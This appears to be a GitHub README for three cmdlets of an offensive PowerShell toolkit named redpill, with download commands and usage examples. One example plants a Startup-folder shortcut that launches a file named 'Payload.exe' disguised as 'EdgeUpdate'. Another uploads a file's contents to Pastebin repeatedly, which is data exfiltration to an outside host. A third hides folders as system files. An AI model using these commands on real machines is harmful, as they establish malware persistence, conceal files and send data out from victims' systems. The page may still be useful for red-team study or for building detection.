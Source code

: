## Out-shortcut.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Out-shortcut](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/Out-shortcut.ps1)|Creates an shortcut file that accepts cmdline arguments to execute|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-Shortcut.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/Out-shortcut.ps1" -OutFile "Out-shortcut.ps1"
```

<br />

**execute:**
```powershell
#Create shortcut pointing to '$Env:TMP\Payload.exe' on startup folder with 'EdgeUpdate' description
.\Out-Shortcut.ps1 -shortcut "$Env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup" -target "$Env:TMP\Payload.exe" -description "EdgeUpdate"
```   

<br />

## SendToPasteBin.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SendToPasteBin](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SendToPasteBin.ps1)|Get filepath contents and paste it to pastebin.|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.ps1" -OutFile "SendToPasteBin.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

<br />

**execute:**
```powershell
Get-Help .\SendToPasteBin.ps1 -full

#Get the contents of -filepath 'string' and creates a new pastebin paste from it on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "1" -timeout "2" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"

#Get the contents of -filepath 'string' and creates a new pastebin paste from it each 120 seconds a max of 10 pastes on the sellected pastebin account.
.\SendToPasteBin.ps1 -FilePath "test.log" -maxpastes "10" -timeout "120" -PastebinUsername "r00t-3xp10it" -PastebinPassword "MyS3cr3TPassword"
```   

<br />

## SuperHidden.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[SuperHidden](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Out-FileFormat/SuperHidden.ps1)| Query\Create\Delete super hidden system folders|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SendToPasteBin.png)|

<br />

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Out-FileFormat/SuperHidden.ps1" -OutFile "SuperHidden.ps1"
```

<br />

**execute:**
```powershell
Get-Help .\SuperHidden.ps1 -full

#Search for 'Hidden, System' folders on predefined locations
.\SuperHidden.ps1 -Action Query

#Search for 'Hidden, System' folders on %TMP% location
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP
   
#Search for 'Hidden, System' folders on %TMP% location 'recursive' (sub-folders)
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -Recursive true
   
#Search for folders with 'Hidden' attribute (not super Hidden, System) on %TMP%
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -attributes Hidden
   
#Search for 'Hidden, System' folders on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -FolderName vault
   
#Create\Modify 'Hidden, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Hidden -Directory $Env:TMP -FolderName vault
      
#Create\modify 'VISIBLE, System' folder on %TMP% location with the name of 'vault'
.\SuperHidden.ps1 -Action Visible -Directory $Env:TMP -FolderName vault
       
#Delete the super hidden 'Hidden, System' folder of %TMP% with the name of 'vault'
.\SuperHidden.ps1 -Action Delete -Directory $Env:TMP -FolderName vault
   
#Search for 'Hidden' OR 'System' directorys on %TMP% location in 'recursive' mode (scan sub-folders)
.\SuperHidden.ps1 -Action Query -Directory $Env:TMP -Attributes "(Hidden|System)" -Recursive true    
``` 
